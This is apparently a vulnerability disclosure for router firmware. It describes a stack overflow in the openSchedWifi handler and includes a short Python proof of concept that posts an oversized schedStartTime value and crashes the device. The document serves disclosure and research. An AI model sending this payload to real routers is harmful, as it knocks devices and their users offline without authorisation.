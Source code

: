 
POC：
```
from pwn import *
import requests

payload = b'a'*176

url = "http://192.168.100.254/goform/openSchedWifi"

cookie = {"Cookie":"password=12345"}
data = {"schedStartTime": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```

1. The firmware is unpacked, the file system is separated, and the file is analyzed

2. There is a stack overflow vulnerability function

<img width="284" height="237" alt="image" src="https://github.com/user-attachments/assets/6d949f21-8b07-4904-bbcc-f7af9d89957c" />


3. Firmware emulation simulation attack
POC causes router crashes

<img width="413" height="69" alt="image" src="https://github.com/user-attachments/assets/515ad410-a691-4f95-8c39-23ab621d9a7e" />
